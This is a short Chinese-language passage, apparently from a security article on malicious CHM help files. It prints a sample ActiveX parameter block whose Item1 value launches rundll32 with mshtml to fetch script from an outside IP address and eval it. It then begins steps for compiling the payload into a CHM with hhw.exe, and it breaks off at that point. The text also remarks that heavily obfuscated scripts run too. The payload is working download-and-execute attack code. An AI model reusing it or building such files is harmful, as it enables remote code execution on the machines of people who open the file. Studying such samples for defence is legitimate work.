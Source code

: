   样本使用 Item1.value 值 (执行指令)，更多的高级用法其实是在 html 里编写 js 脚本强混淆都可以执行，扩展性很好，它支持 html 可以内嵌（js）。

```bash
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://23.83.243.205:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
 <PARAM name="Item2" value="273,1,1">
```

-   下载安装：
    
    ```bash
    https://docs.microsoft.com/zh-cn/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads
    ```
    

[![](assets/1708482417-77e32becd7b4d8d8b2ea537aa4947098.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220084736-a3f0f126-cf89-1.png)

  打开 hhw.exe，File-New-Project，下一步/下一步选择路径/下一步 htm/选择添加利用文件：
